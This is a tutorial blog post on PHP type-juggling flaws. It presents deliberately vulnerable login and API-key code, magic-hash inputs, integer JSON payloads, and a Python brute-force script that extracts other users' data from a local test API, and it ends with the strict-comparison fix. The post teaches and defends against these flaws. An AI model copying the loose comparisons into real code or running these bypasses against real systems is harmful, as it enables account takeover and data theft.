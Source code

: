 ```yaml
---
layout: post
title: PHP Type-Juggling with Authentication Bypass and API Exploitation examples
excerpt: "PHP Type-Juggling explained with 2 different examples. The first one is Auth Bypass and the second one is exploiting a custom API"
categories: [tutorials]
comments: true
tags: [php, authentication bypass, python]
---
```


Did you know that a single missing character in your code can cause your authentication mechanism to be broken and give
attackers the ability to bypass it ? Or maybe exploit your API to get valuable information, or bypass your CSRF protection, or in some cases even gain RCE.
So today I'm going to explain these attacks, how to exploit them, and how to avoid them. 

#### What is Type-Juggling

In PHP there are 2 main comparison methods called `loose` and `strict` comparisons 

> Loose Comparison (==) - Doesn't check the type of the given data

> Strict Comparison (===) - Does check the type of the given data

This kind of vulnerability lies on `Loose Comparisons`, and it happens because loose comparisons don't check the type of the data and will return `TRUE` if a string is compared to `0`. Example: `"0" == 0` will result in `TRUE` but also `"alb0z" == 0` will result in `TRUE`<br>
The image below shows the difference between `Loose Comparisons` and `Strict Comparisons`

![Difference between loose and strict comparisons](/img/Type-Juggling-1.png)

Developers that are not aware of this type of attack will usually compare data through something similar to this

{% highlight php %}
if (md5($string) == $key) 
{% endhighlight %}

So in this case if the `$key` starts with `0e`, then we can simply give a string that productes an another md5 hash which starts with `0e` in the `$string` variable, which we may give it through GET or POST requests or other types of input 

Some such string are `QNKCDZO` and `240610708`

A small example

![Type juggling example](/img/Type-Juggling-2.png)

In the examples below I will go more into details on how to exploit it

#### Example 1: Authentication Bypass

First I wrote this simple PHP authentication mechanism which doesn't use a database so you can reproduce the attack simpler and faster

{% highlight php %}
<?php 

// In a real world environment this would be in a database
$users = [
  "alb0z" => ["username" => "alb0z", "password" => "2ac9cb7dc02b3c0083eb70898e549b63"], // Password1
  "james" => ["username" => "james", "password" => "0e556485729818849153460746667456"] // Qxs2daYW123
];

$msg = "";

if(isset($_POST['login'])) { // If a login request has been sent
  if(!array_key_exists($_POST['username'], $users)) { // If user doesn't exist
    $msg = "Invalid username or password!";
  }else {
    $username = $_POST['username'];
    $password = $_POST['password'];
    if(md5($password) == $users[$username]['password']) { // Check if user has given a correct password (This is where the bug is)
      // A real world app would redirect us to the main page and set cookies, but for testing purposes I'm going to leave with just a message
      $msg = "Successfully logged in!";
    } else {
      $msg = "Invalid username or password!";
    }

  }
}

if(!empty($msg)) { echo $msg; }
?>

<form method="post">
  <input type="text" name="username" placeholder="Username"><br><br>
  <input type="password" name="password" placeholder="Password"><br><br>
  <button type="submit" name="login" value="1">Login</button>
</form>
{% endhighlight %}

Now notice the line where the script compares the md5 hash of the password in POST request with the md5 hash of the password saved in the database (array in this case)

{% highlight php %}
if(md5($password) == $users[$username]['password'])
{% endhighlight %}

We have 2 users `alb0z` and `james`, in this case we can't bypass into `alb0z` because the hash must start with `0e` in order to bypass it, but we can still log into `james` account.

Note: If the application accepts `json` then we can bypass all the hashes and not only the ones starting with `0e`, that's because HTTP sends all the data in string format, but with `json` we can send integers too. More details will be shown in the next example.

I am going to use `php -S 127.0.0.1:8000` to serve the login page, however you can use Apache too.

Now it's time to exploit it. I'm using `curl` to send POST requests, but the same thing can be achieved through your browser.

First sending a normal request with an invalid password to confirm that we can't simply login with a random password

![Normal curl request](/img/Type-Juggling-3.png)

And now let's try it with a string which produces a md5 hash that start with `0e` in this case I'm going to use `NWWKITQ`. First confirm that the string's hash gives us the desired hash, and then make the POST request using `curl`

![Exploit curl request](/img/Type-Juggling-4.png)

Now as we see we successfully gained access to user `james` without knowing his real password.

#### Example 2: Get access to other users data through API

In this example I'm going to show you how to exploit the vulnerability even when the hashes don't start with `0e`. For this to work, `json` data has to be accepted by the application.
Again I'm going to write/use a simple script without a database which will act like a real world API.

{% highlight php %}
<?php

header("Content-Type: application/json; charset=UTF-8");

// In a real world environment this would be in a database
$users = [ 
  'alb0z' => ['username' => 'alb0z', 'api_key' => '7c2fceb815553c50fa1c2e3fe4a108fc71d966b199f660ed048c32dfe5978aff', 'secret_data' => 'This is secret and only alb0z should be able to access it',],
  'james' => ['username' => 'james', 'api_key' => 'e682a16f3973fa12ecf221baa5b1e169157c44ef301180077fe48eae69fb7594', 'secret_data' => 'This is secret and only james should be able to access it'],
  'carl' => ['username' => 'carl', 'api_key' => '399d65963db11309b2f6e4a59094686b12133274b47c867e52b277b68a0ef39b', 'secret_data' => 'This is secret and only carl should be able to access it']
];

if($_SERVER['REQUEST_METHOD'] != 'POST') { die("Only post requests are allowed"); } // allow only post requests

$data = json_decode(file_get_contents("php://input")); // get any input sent to us and json decode it

$return = [];

if(!property_exists($data, "username") or !property_exists($data, "api_key")) { // check if username and api_key are in json data we received
  $return['error'] = "username and api_key required";
  die(json_encode($return));
}

if(!array_key_exists($data->username, $users)) { // check if received username exist
  $return['error'] = "username not found";
  die(json_encode($return));
}

if($data->api_key != $users[$data->username]['api_key']) { // Check if the given api_key is valid for the given user
  $return['error'] = "api_key is not valid ";
  die(json_encode($return));
}else {
  $return = $users[$data->username];
  unset($return['api_key']);
  die(json_encode($return)); // if everything is okay, then print secret data 

}

?>
{% endhighlight %}

So basically what this script does is accept json data and return some "secret" data for the user. In a real world app the API could do anything from returning personal user information to sending messages, deleting posts or purchasing products in an e-commerce.

Now starting to analyze the code. First thing we should notice is this line that checks if the api_key is not valid, if it is not valid it stops the execution, but if it is then it returns the data. 

{% highlight php %}
if($data->api_key != $users[$data->username]['api_key'])
{% endhighlight %}

`!=` is the opposite of `==` but it still is a loose comparison, so it is still vulnerable.

We have 3 users on the API database (array in this case) `alb0z`,`james` and `carl`, and all three of them have private api keys 64 characters long.

As the API only accepts json, we need to send json through http, and I'm going to do that using `curl` and I will check both using a valid and an invalid key


![API curl check](/img/Type-Juggling-5.png)

Now as the valid api key start with 7, we can simply send an integer with 7 as value in api_key field and that will bypass the api key check.

![API curl exploit 1](/img/Type-Juggling-6.png)

Let's continue to get other users' data. As `james` api_key starts with a letter, we can use 0 as api_key to get his data

![API curl exploit 2](/img/Type-Juggling-7.png)

Time to get user `carl`, his api_key starts with 3, and we try to send a 3 as integer in api_key field, however that is not going to work in this case as his api_key has 3 numbers until the first letter (if the key starts with a number we need to set the api_key in json to first part of numbers of the original api_key ) `399d65963db11309b2f6e4a59094686b12133274b47c867e52b277b68a0ef39b` so we need to use 399 as the api_key to get access to his data.

But in a real world api we don't have access to the keys, so we may need to brute force the integer we need to use.

And I wrote this simple python script to do the brute forcing for us.

{% highlight python %}
#!/usr/bin/env python3
import requests


target = "http://localhost:8000/api.php"

valid_usernames = ['alb0z', 'james', 'carl'] # valid users you know
json_data = '{"username": "%s", "api_key": %s}' # json data to send

for user in valid_usernames:
    for i in range(0,10000): #brute force which api_key integers will work
        post_req = json_data % (user, i)
        req = requests.post(target, data=post_req) # send the request
        if "api_key is not valid" not in req.text: 
            print("Data for user: %s with %i as api_key: %s" % (user, i, req.text))
            break
{% endhighlight %}

And when run, it finds the numbers for us.

![API curl exploit 2](/img/Type-Juggling-8.png)

#### Where to find hashes which start with `0e` 
Hashes that start with `0e` are called magic hashes and you can find many types of them here <a href="https://github.com/spaze/hashes">https://github.com/spaze/hashes</a>


#### How to prevent it

These type of bugs are probably the easiest ones to fix, one needs to use strict comparisons instead of loose comparisons

so this 
{% highlight php %}
if (md5($string) == $key) 
{% endhighlight %}
needs to becomes this
{% highlight php %}
if (md5($string) === $key) 
{% endhighlight %}
<br>